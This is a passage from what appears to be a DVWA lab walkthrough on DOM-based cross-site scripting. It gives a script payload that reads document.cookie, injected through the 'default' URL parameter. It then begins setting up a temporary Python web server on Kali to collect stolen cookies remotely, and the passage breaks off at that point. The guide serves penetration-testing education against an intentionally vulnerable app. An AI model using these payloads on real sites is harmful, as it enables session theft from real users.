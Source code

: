 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_d/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<h3><b>Examining the Form</b></h3>

Before we begin, we should probably define what DOM-based cross-site scripting (XSS) vulnerabilities are. "DOM" stands for "<a href="https://en.wikipedia.org/wiki/Document_Object_Model" target="_blank">Document Object Model</a>". We don't care too much about the details; all we need to know is it allows Javascript to change all parts of a given HTML page. When related to XSS, it means that we should explore how we can exploit an XSS vulnerability as present in the DOM environment (usually the URL), not store it in the page itself.

Now let's look at the form.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssdform.png" width="500">

We see a dropdown with several language choices. If we choose a language from the dropdown and click the "Select" button, we see the URL has changed to something like this:

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=English</b>

<h3><b>Testing for XSS</b></h3>

Knowing what we do about DOM-based XSS vulnerabilities, it seems the best place to start is by modifying that <b>default</b> parameter. Why don't we try a classic XSS exploit test?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

Plop it in the URL, like so:

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=&#60;script&#62;alert(document.cookie)&#60;/script&#62;</b>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssdalert.png" width="500">

<i>Note that I actually input <b>document.cookie.split(";")[0]</b> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Nice, we see the cookie details! However, we experience a bit of a problem. This <code>alert</code> script only displays the cookie details to the current logged in user. That doesn't do us much good - how likely is it that during a pentest, we'll have visual access to every victim's screen? Let's try to find a way to get the cookie on Kali, no matter where the victims are.

<h3><b>Getting the Cookie, Remotely</b></h3>

To get started with this, we'll need a web server. Let's stand a temporary one up on Kali with the command:

<code>python -m SimpleHTTPServer 9999</code>
